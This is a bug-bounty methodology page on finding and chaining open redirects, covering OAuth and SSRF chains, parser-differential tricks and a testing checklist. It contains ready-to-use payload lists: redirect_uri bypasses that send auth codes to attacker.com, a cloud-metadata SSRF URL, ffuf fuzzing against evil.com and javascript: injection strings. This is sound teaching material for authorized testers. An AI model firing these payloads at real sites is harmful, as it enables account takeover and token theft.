

> Source: https://bugbounty.info/Attack-Surface/Web/Infrastructure/Open-Redirect

# Open Redirect

An open redirect on its own is almost never worth reporting. Most programs rate it P4 or informational. The rare exceptions are programs with very generous scopes or ones that explicitly call it out as in-scope. The real value  -  and the only time I spend significant energy on them  -  is as a component in a chain.

Per my notes: don't report open redirects as standalone findings unless the program explicitly pays for them.

## Where Open Redirects Actually Matter



### OAuth Chain (Most Valuable)

If the OAuth flow uses `redirect_uri` validation that can be bypassed via an open redirect on the allowed domain:

```text
Normal: /oauth/authorize?client_id=app&redirect_uri=https://target.com/callback
Attack: /oauth/authorize?client_id=app&redirect_uri=https://target.com/redirect?url=https://attacker.com
```

If `target.com/redirect` is an open redirect and the OAuth server only validates that `redirect_uri` starts with `https://target.com`, the auth code lands at attacker.com in the URL fragment/query. See [OAuth](../../../Attack-Surface/Web/Authentication/OAuth).

### SSRF Filter Bypass

Server-side URL fetch that validates against a whitelist  -  if the validated URL redirects to an internal address, some implementations follow the redirect:

```text
Allowed: https://target.com/*
Attack: https://target.com/redirect?url=http://169.254.169.254/metadata
```

## Finding Open Redirects

### Parameter Names to Fuzz

```text
url, redirect, next, return, returnTo, return_url, redirect_url, goto,
dest, destination, continue, target, redir, r, u, link, navigate,
successUrl, failureUrl, cancelUrl, back, forward, to, from, path
```

```bash
# Fuzz common redirect parameters across a site
ffuf -w params.txt:PARAM -u "https://target.com/login?PARAM=https://evil.com" \
  -mr "Location: https://evil.com" -H "User-Agent: Mozilla/5.0"
```

### Post-Authentication Flows

Login, logout, and OAuth callback handlers are the most common locations. After login: `?next=/dashboard`  -  change to `?next=https://evil.com`. After logout: `?returnTo=https://evil.com`.

### JavaScript-Based Redirects

```javascript
window.location = getParam('redirect');
document.location.href = decodeURIComponent(getParam('url'));
history.pushState(null, null, getParam('path'));
```

These don't produce HTTP 302 responses  -  they only fire client-side. Burp's passive scanner misses them. You need to look at JS source for URL parameter usage feeding into `location`, `location.href`, `location.assign`, `location.replace`.

## Bypass Techniques

When an app tries to validate redirect URLs, these are the patterns worth testing:

```bash
# Protocol bypass
//evil.com
\/\/evil.com
https:evil.com
javascript://evil.com%0aalert(1)
 
# Domain confusion
https://evil.com@target.com           <- user@host  -  browser goes to target.com but some parsers go to evil.com
https://target.com.evil.com
https://target.com%2fevil.com%2f..
 
# Path traversal
https://target.com/../../evil.com
https://target.com/redirect/../../../evil.com
 
# Encoded characters
https://evil%2ecom
https://evil.com%23@target.com        <- fragment confusion
https://evil.com%3F@target.com        <- query confusion
 
# Null byte / truncation
https://target.com%00https://evil.com
```

Apps that validate "must start with `https://target.com`":

```text
https://target.com.evil.com            <- passes prefix check
https://target.com@evil.com            <- passes prefix check in some parsers
https://target.com%2F@evil.com
```

## Documenting for Chain Reports

When you find an open redirect that enables a chain, lead with the chain impact:

> "Open redirect at `/redirect?url=` allows bypassing OAuth `redirect_uri` validation, resulting in authorization code exfiltration and account takeover."

The open redirect is one sentence of context. The account takeover is the finding.

## Parser Differentials

The most reliable open redirect bypasses come from disagreements between the validator and the actual URL parser the app (or browser) uses. Different parsers have different opinions about what constitutes the "host" in a URL.

WHATWG (browser URL parsing) differs from RFC 3986 in several ways that matter for redirects:

**Backslash as path separator**  -  WHATWG treats `\` as equivalent to `/` in the path and even in the authority section. RFC 3986 does not. Windows-hosted apps using .NET or IIS often parse URLs through layers that mix WHATWG-like behaviour with RFC 3986 validation:

```text
https://target.com\evil.com       # WHATWG normalises to https://target.com/evil.com
                                    # but some validators treat target.com\ as the host
https://target.com\@evil.com      # can resolve to evil.com in some parsers
```

**Authority parsing**  -  WHATWG starts parsing the host at `//`, RFC 3986 authority starts after `//`. Some apps only look for `target.com` as a substring in the URL, not as the actual host:

```text
https://evil.com?x=https://target.com   # passes substring check, redirects to evil.com
https://evil.com/path#https://target.com # fragment after target.com
```

## RFC 3986 Edge Cases

These are the raw URL grammar edge cases that validators frequently miss:

**`@` in userinfo**  -  RFC 3986 allows `user:password@host` in the authority. In a URL like `https://target.com@evil.com`, RFC 3986 says the host is `evil.com` and `target.com` is the username. Many string-based validators see `target.com` in the URL and consider it safe:

```text
https://target.com@evil.com
https://user@evil.com:443/path
```

**Protocol-relative URLs**  -  `//evil.com` is a valid relative reference that inherits the current scheme. If the validator requires a scheme, this bypasses it:

```text
//evil.com
\/\/evil.com      # backslash normalisation in some browsers
```

**Fragment tricks**  -  the `#` fragment is stripped by the browser before sending to the server. A server-side URL validator may see `https://target.com/path#https://evil.com` and consider it safe because the host is `target.com`. The browser ignores the fragment for the HTTP request but JavaScript still reads `window.location.hash`:

```text
https://target.com/redirect?url=https://target.com/path#https://evil.com
```

Less useful for server-side redirect, but relevant for JavaScript-based redirects reading the URL.

**Port confusion**  -  `https://target.com:evil.com/` is invalid per RFC 3986 (port must be numeric), but some parsers fail open and treat everything after `:` as a port, silently ignoring or truncating it.

## Meta Refresh and JavaScript Redirects

Server-sent redirects (HTTP 302/301) are the obvious case. Two others that validators miss:

**`<meta http-equiv="refresh">`**  -  if the app writes user input into a meta refresh tag, the browser will follow the redirect after the specified delay:

```html
<!-- Attacker-controlled 'url' parameter written into meta tag -->
<meta http-equiv="refresh" content="0; url=https://evil.com">
```

These don't produce a `Location` header and passive scanners miss them. Grep page source for `http-equiv` wherever user input is reflected.

**JavaScript redirects**  -  already covered in the Finding section, but worth noting the specific sinks that validators often overlook because they don't scan JavaScript:

```javascript
window.location.replace(param)   // no browser back button
window.location.assign(param)    // standard redirect
document.location = param        // equivalent
location.href = param            // most common
```

For `javascript:` URIs specifically: if the app validates that the URL starts with `https://` but passes the value into a JavaScript `location.href` assignment, the `javascript:` scheme bypasses schemes like the page `javascript:void(0)`:

```text
https://target.com/redirect?url=javascript:alert(document.domain)
# Only triggers if the value is used in JS context, not as a server-side 302
```

## Chain Uses

Open redirects earn their keep in chains. Two patterns that reliably escalate severity:

**Open Redirect to ATO via OAuth**  -  full chain walkthrough: an open redirect on `target.com` allows bypassing the OAuth `redirect_uri` validation, which allows stealing authorization codes, which allows logging in as any victim who visits an attacker-crafted URL. Report the chain with "account takeover" as the headline. See [OAuth](../../../Attack-Surface/Web/Authentication/OAuth) for the redirect_uri section.

**Open Redirect to token leak via Referer**  -  if the redirect target has third-party resources (Google Analytics, ad scripts, fonts) and the redirect URL contains a sensitive token in the query string (e.g. a password reset token or OAuth state), that token appears in the Referer header of every third-party request. See [Password Reset](../../../Attack-Surface/Web/Authentication/Password-Reset) for this pattern applied to reset tokens.

## Checklist

- Identify all redirect/return/next parameters in the app
- Test login, logout, and OAuth callback handlers
- Check post-registration flows (where does it send you after signup?)
- Test bypass patterns: protocol, domain confusion, encoding, and the `@` userinfo trick
- Test WHATWG vs RFC 3986 differentials: backslash, protocol-relative `//`, and port confusion
- Search JS source for `location =`, `location.href =`, `location.replace(`, `location.assign(`
- Grep page source for `http-equiv="refresh"` wherever user input may appear
- For any open redirect found: immediately assess OAuth chain viability
- For any open redirect found: test SSRF chain if server-side fetching exists
- Test `javascript:` URI in parameters that feed into JavaScript location assignments

## Public Reports

- Open redirect on Shopify used to steal OAuth tokens - [HackerOne #694942](https://hackerone.com/reports/694942)
- Open redirect on Twitter chained with OAuth for account takeover - [HackerOne #131202](https://hackerone.com/reports/131202)
- Open redirect on Uber chained with OAuth leading to token theft - [HackerOne #105991](https://hackerone.com/reports/105991)
- Open redirect via backslash in URL on GitLab - [HackerOne #309863](https://hackerone.com/reports/309863)

## See Also

- [OAuth](../../../Attack-Surface/Web/Authentication/OAuth)
- [SSRF](../../../Attack-Surface/Web/SSRF/SSRF)
- [CSRF](../../../Attack-Surface/Web/Client-Side/CSRF)
- [Password Reset](../../../Attack-Surface/Web/Authentication/Password-Reset)  -  token leak via Referer on redirected pages
